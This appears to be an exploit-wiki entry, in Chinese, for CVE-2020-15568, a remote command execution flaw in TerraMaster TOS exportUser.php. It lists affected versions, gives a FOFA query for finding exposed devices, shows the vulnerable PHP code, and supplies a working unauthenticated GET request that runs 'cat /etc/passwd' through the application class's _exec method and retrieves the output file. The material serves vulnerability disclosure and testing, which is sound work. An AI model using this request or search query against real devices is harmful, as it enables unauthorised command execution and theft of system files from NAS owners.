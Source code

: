 # TerraMaster TOS exportUser.php 远程命令执行 CVE-2020-15568

## 漏洞描述

TerraMaster TOS exportUser.php 文件中存在远程命令执行漏洞

## 漏洞影响

> [!NOTE]
>
> TerraMaster TOS < 4.1.24

## FOFA

> [!NOTE]
>
> "TerraMaster" && header="TOS"

## 漏洞复现

出现漏洞的文件 ***exportUser.php***

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```

在其他文件的代码检查期间，也发现有一种方法可以利用TOS软件中预先存在的类来利用此问题。
位于**include/class/application.class.php**中的PHP类是在运行TOS软件的设备上执行命令的最佳人选。

由于*exportUser.php*没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为HTTP GET参数来实现代码执行。

```
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>pq.txt
```

返回200后再次访问

````
http://xxx.xxx.xxx.xxx/include/pq.txt
````

![](http://wikioss.peiqi.tech/vuln/tm-9.png)